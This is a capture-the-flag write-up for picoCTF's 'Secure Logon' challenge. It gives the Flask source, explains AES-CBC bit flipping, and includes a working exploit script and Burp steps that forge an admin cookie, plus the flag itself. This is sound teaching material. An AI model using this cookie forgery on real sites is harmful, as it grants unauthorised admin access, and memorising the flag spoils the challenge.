





# Secure Logon
Web Exploitation, 500 points

## Description:
> Uh oh, the login page is more secure... I think. 

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash
import json
from hashlib import md5
from base64 import b64decode
from base64 import b64encode
from Crypto import Random
from Crypto.Cipher import AES

app = Flask(__name__)
app.secret_key = 'seed removed'
flag_value = 'flag removed'

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]


@app.route("/")
def main():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.form['user'] == 'admin':
        message = "I'm sorry the admin password is super secure. You're not getting in that way."
        category = 'danger'
        flash(message, category)
        return render_template('index.html')
    resp = make_response(redirect("/flag"))

    cookie = {}
    cookie['password'] = request.form['password']
    cookie['username'] = request.form['user']
    cookie['admin'] = 0
    print(cookie)
    cookie_data = json.dumps(cookie, sort_keys=True)
    encrypted = AESCipher(app.secret_key).encrypt(cookie_data)
    print(encrypted)
    resp.set_cookie('cookie', encrypted)
    return resp

@app.route('/logout')
def logout():
    resp = make_response(redirect("/"))
    resp.set_cookie('cookie', '', expires=0)
    return resp

@app.route('/flag', methods=['GET'])
def flag():
  try:
      encrypted = request.cookies['cookie']
  except KeyError:
      flash("Error: Please log-in again.")
      return redirect(url_for('main'))
  data = AESCipher(app.secret_key).decrypt(encrypted)
  data = json.loads(data)

  try:
     check = data['admin']
  except KeyError:
     check = 0
  if check == 1:
      return render_template('flag.html', value=flag_value)
  flash("Success: You logged in! Not sure you'll be able to see the flag though.", "success")
  return render_template('not-flag.html', cookie=data)

class AESCipher:
    """
    Usage:
        c = AESCipher('password').encrypt('message')
        m = AESCipher('password').decrypt(c)
    Tested under Python 3 and PyCrypto 2.6.1.
    """

    def __init__(self, key):
        self.key = md5(key.encode('utf8')).hexdigest()

    def encrypt(self, raw):
        raw = pad(raw)
        iv = Random.new().read(AES.block_size)
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return b64encode(iv + cipher.encrypt(raw))

    def decrypt(self, enc):
        enc = b64decode(enc)
        iv = enc[:16]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return unpad(cipher.decrypt(enc[16:])).decode('utf8')

if __name__ == "__main__":
    app.run()

```

## Solution:

The website encrypts the cookie with an unknown key, and an admin cookie is needed in order to view the flag after loggin in.

When we try to login as a regular user (we don't even need a username or password), we see:
```
Success: You logged in! Not sure you'll be able to see the flag though.

No flag for you

Cookie: {'admin': 0, 'username': '', 'password': ''}
```

We need to alter the cookie and set "admin=1" in order to view the flag.

This can be done using an attack called "[Bit Flipping](https://en.wikipedia.org/wiki/Bit-flipping_attack). AES encryption is performed on blocks. Assume we can identify the exact location of the byte we want to modify (the "0" of "admin=0") at offset x. We can then modify the byte at x - BLOCK_SIZE (i.e. the byte in the previous block that has the same offset within a block) and control the value of the byte we want to change. This is needed since in AES-CBC, every block is not only decrypted using the key, but also XORed with the ciphertext from the previous block, making every plaintext block dependent on both the current and the previous ciphertext block.
Obviously, this comes with a price - we will corrupt other parts of the plaintext. However, if they don't contain any important information, the exploit will work. More about this can be found [here](https://blog.gdssecurity.com/labs/2010/10/6/crypto-challenges-at-the-csaw-2010-application-ctf-qualifyin.html).

How do we control the value we want to set? Well, in our example, given offset x, we know that when decrypting the ciphertext, we will get a "0" after performing:
```
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte
```

We don't know what the appropriate key byte is since the key is secret, but we know what everything else is.
So we replace (byte_at_offset_x-16) with (byte_at_offset_x-16 ^ "0" ^ "1"):
```
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte = "0"

byte_at_offset_x ^ (byte_at_offset_x-16 ^ "0" ^ "1") ^ appropriate_key_byte = 
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte ^ "0" ^ "1"   =
"0" ^ "0" ^ "1" = 
"1"
```

### Solving with dedicated script

The following script will solve the challenge:
```python
from pwn import *
import requests
import json
import base64

BASE_URL = "http://2018shell3.picoctf.com:13747"
AES_BLOCK_SIZE = 16

my_cookie = {}
my_cookie['password'] = "password12"
my_cookie['username'] = "username12"
my_cookie['admin'] = 0
log.info("My cookie: {}".format(my_cookie))

my_json_cookie = json.dumps(my_cookie, sort_keys=True) #Formatted like the server would
log.info("My sorted JSON cookie: {}".format(my_json_cookie))

s = requests.Session()
r = s.post(BASE_URL + "/login", data = {"user": my_cookie["username"], "password": my_cookie["password"]})

log.info("Server cookie - raw: {}".format(s.cookies['cookie']))
server_cookie_decoded = base64.b64decode(s.cookies['cookie'])
log.info("Server cookie - decoded: {}".format(enhex (server_cookie_decoded)))
my_json_cookie_with_dummy_iv = ("A" * AES_BLOCK_SIZE) + my_json_cookie
offset_of_byte_to_control = my_json_cookie_with_dummy_iv.find('0')
log.info("Offset of byte to control: {}".format(offset_of_byte_to_control))
offset_of_byte_to_flip = offset_of_byte_to_control - AES_BLOCK_SIZE #Flip byte in previous block
log.info("Offset of byte to flip: {}".format(offset_of_byte_to_flip))


server_cookie_decoded_copy = bytearray(server_cookie_decoded)
flip_value = server_cookie_decoded_copy[offset_of_byte_to_flip] ^ ord("0") ^ ord("1")
log.info("Flipping 0x{:02X} to 0x{:02X} at offset {}".format(server_cookie_decoded_copy[offset_of_byte_to_flip], flip_value, offset_of_byte_to_flip))
server_cookie_decoded_copy[offset_of_byte_to_flip] = flip_value
log.info("Server cookie - after flip: {}".format(enhex (str(server_cookie_decoded_copy))))
server_cookie_encoded_copy = base64.b64encode(server_cookie_decoded_copy).decode("utf-8")

s.cookies.set('cookie', None) # Needed in order to delete previous cookie
s.cookies.set('cookie', server_cookie_encoded_copy )

r = s.get(BASE_URL + "/flag")
for line in r.text.split("\n"):
    if "picoCTF{" in line:
        print line
```

Output:
```console
root@kali:/media/sf_CTFs/pico/Secure_Logon# python exploit.py
[*] My cookie: {'username': 'username12', 'admin': 0, 'password': 'password12'}
[*] My sorted JSON cookie: {"admin": 0, "password": "password12", "username": "username12"}
[*] Server cookie - raw: mCayHc6FRKrlwasUv9sUyXa139kAvaHRLJrnu4M48++aXPJg1SC/yKCcC59HZObWvBFg8k4LyapaBJkI68Txu94ybuXphGMHxdRwnzpr3SecGWa6OdZq82hM/3DkQ3Su
[*] Server cookie - decoded: 9826b21dce8544aae5c1ab14bfdb14c976b5dfd900bda1d12c9ae7bb8338f3ef9a5cf260d520bfc8a09c0b9f4764e6d6bc1160f24e0bc9aa5a049908ebc4f1bbde326ee5e9846307c5d4709f3a6bdd279c1966ba39d66af3684cff70e44374ae
[*] Offset of byte to control: 26
[*] Offset of byte to flip: 10
[*] Flipping 0xAB to 0xAA at offset 10
[*] Server cookie - after flip: 9826b21dce8544aae5c1aa14bfdb14c976b5dfd900bda1d12c9ae7bb8338f3ef9a5cf260d520bfc8a09c0b9f4764e6d6bc1160f24e0bc9aa5a049908ebc4f1bbde326ee5e9846307c5d4709f3a6bdd279c1966ba39d66af3684cff70e44374ae
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{fl1p_4ll_th3_bit3_7d7c2296}</code></p>
```

### Solving with BURP suite

It's also possible to brute-force the cookie with BURP suite to get the flag.

Open BURP suite and select the "Intruder" tab.
In the "Target" tab, enter the details of the server:



In the "Positions" tab, enter the GET request format, together with the original cookie, and mark the cookie as the payload:



In the "Payloads" tab, select the "Bit flipper" attack:



In the "Options" tab, add grep rules for matching and extraction:



Launch the attack and after a short while, it will flip the correct byte to provide the flag:

